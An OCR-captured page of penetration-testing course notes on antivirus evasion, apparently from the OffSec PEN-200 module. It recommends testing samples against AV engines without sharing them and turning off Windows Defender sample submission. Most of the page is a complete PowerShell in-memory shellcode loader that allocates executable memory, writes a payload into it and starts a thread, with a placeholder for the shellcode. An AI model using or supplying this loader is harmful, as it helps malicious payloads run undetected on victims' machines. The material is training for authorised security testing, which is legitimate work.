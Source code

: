 
### Testing for AV Evasion

 [_AntiScan.Me_](https://antiscan.me/) - scans malware samples against 30 AV engines and does not submit sample to third parties (unlike VirusTotal)

Turn of Windows Defender's automatic sample submission.

### Evading AV with Thread Injection

##### Scenario

Evading _Avira Free Security_ version 1.1.68.29553 with a _remote process memory injection_ technique

In-memory payload injection script for PowerShell

```PowerShell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Importing Windows APIs

1. _VirtualAlloc_[4](https://portal.offsec.com/courses/pen-200-44065/learning/antivirus-evasion-44896/av-evasion-in-practice-44922/evading-av-with-thread-injection-44903#fn-local_id_74-4)- allocate memory
2. _CreateThread_[5](https://portal.offsec.com/courses/pen-200-44065/learning/antivirus-evasion-44896/av-evasion-in-practice-44922/evading-av-with-thread-injection-44903#fn-local_id_74-5)- create execution thread
3. _memset_ - write to allocated memory
